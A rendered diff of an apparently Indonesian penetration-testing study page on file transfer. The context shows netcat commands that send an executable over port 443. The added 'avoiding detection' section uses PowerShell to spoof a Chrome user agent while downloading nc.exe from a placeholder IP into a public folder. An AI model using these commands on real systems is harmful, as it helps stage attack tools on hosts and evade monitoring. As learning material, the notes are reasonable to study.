

Before and after one commit to nmwafa/nmwafa.github.io, a Markdown page: learn/file-transfer.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
GITBOOK-9: No subject

````diff
--- a/learn/file-transfer.md
+++ b/learn/file-transfer.md
@@ -339,3 +339,15 @@ sudo ncat -l -p 443 --send-only < batagor.exe
 nc <ip> 443 > batagor.exe
 ncat <ip> 443 --recv-only > batagor.exe
 ```
+
+<h2 align="center">Menghindari Deteksi</h2>
+
+```
+## GANTI USER AGENT
+# list user agent yg ada di windows
+[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl
+
+# dari list yg ada, pake salah 1
+$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome
+Invoke-WebRequest http://<ip>/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"
+```
````
